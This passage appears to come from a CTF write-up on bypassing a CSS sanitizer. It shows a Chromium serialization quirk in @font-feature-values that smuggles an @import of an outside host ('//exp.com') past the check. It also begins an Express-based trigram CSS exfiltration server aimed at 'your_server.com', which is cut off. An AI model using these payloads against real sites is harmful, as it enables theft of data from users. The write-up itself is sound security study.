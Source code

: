 Therefore, this approach is likely wrong and not feasible.

So, what other direction is there? Another direction is to use existing mechanisms to bypass the check.

The sanitizer will eventually return safeCss, which is made up of the cssText of each rule. If you can make the final cssText have characters like `@impor\74`, you can bypass the final check.

Then, my teammate found that `@font-feature-values 'lol {}; @import "lol.com";p'` after extracting the cssText, will directly remove the single quotes. And after removing the quotes, it's obvious that the meaning of the CSS changes.

Based on this, you can provide an input like this:

``` html
<style>
  @font-feature-values 'lol; @\\0069mport "//exp.com";p' {}
</style>
```

After extracting cssText, it will become:


``` html
<style>
  @font-feature-values 'lol;
  @\0069mport "//exp.com";
  p {}
</style>
```

Successfully smuggled in the `@import`, then you can use common methods to leak the characters.

Speaking of this, it feels like I should prepare a CSS injection server that can be used on the fly, otherwise, it's a bit tiring to write from scratch every time.

This time I directly used the trigram I wrote for [0CTF 2023](https://blog.huli.tw/2023/12/11/0ctf-2023-writeup/), but it's a bit buggy. I didn't consider it well when reassembling the characters, so it takes many attempts and good luck to get the correct answer.

After trying and fixing it for an hour in a trial-and-error state, I was lucky enough to get the flag.

By the way, according to the post-competition discussion on Discord, this bug has been fixed recently: [Properly escape CSS identifiers in serialization.](https://chromium-review.googlesource.com/c/chromium/src/+/5604769)

Finally, here is the complete but unstable exploit:

``` js
const express = require('express')

const app = express()
const port = 5555

let leaks = []
const BASE = 'https://your_server.com'

// prepare payload
let chars = '0123456789abcdef'

let arr = []
for(let a of chars) {
    for(let b of chars) {
        for(let c of chars) {
            let str = a+b+c;
            arr.push(str)
        }
    }
}

```